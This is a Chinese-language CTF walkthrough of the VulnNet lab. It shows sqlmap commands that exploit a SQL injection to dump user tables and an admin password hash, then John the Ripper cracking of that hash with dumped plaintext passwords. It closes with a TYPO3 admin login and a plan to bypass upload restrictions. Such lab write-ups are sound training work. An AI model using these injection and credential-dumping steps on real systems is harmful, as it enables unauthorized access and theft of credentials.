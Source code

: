 查看vn_admin

    sqlmap -u 'http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1' -p blog --dbms=mysql  -D vn_admin --tables

有两个表值得我们注意：

    be_users
    fe_users

导出be_users数据：

    sqlmap -u 'http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1' -p blog --dbms=mysql  -D vn_admin -T be_users -C username,password,admin --dump

.

    username,password,admin
    chris_w,"$argon2i$v=19$m=65536,t=16,p=2$UnlVSE***********YufyM4Rg",1

可以看到该用户是admin，并且还有它的密码hash

john在后台爆，我们顺便查看其他表

fe_users表是空的

## 凭据转储

终于，在blog库下的users表下存在许多明文的用户名和密码，我们可以尝试使用这些密码来尝试爆破刚刚的密码hash，因为john直到现在还没爆出来

sqlmap -u 'http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1' -p blog --dbms=mysql  -D blog -T users -C username,password --dump

文件保存在：

    /root/.local/share/sqlmap/output/api.vulnnet.thm/dump/blog/users.csv

清洗数据并保存：

    cut -d "," -f2 /root/.local/share/sqlmap/output/api.vulnnet.thm/dump/blog/users.csv > ./test1.txt

## John爆破

使用该字典进行john爆破：

    john --wordlist=./test1.txt ./hash

很快得到密码：

    vAx*****eTz

使用这对凭据尝试登录http://admin1.vulnnet.thm/typo3/

成功

## 任意文件上传

在后台尝试文件上传，有防护，尝试绕过，但是失败。

在查看其他功能的时候，好玩了，在Settings中的“Configure Installation-Wide Options”可以修改文件禁用列表
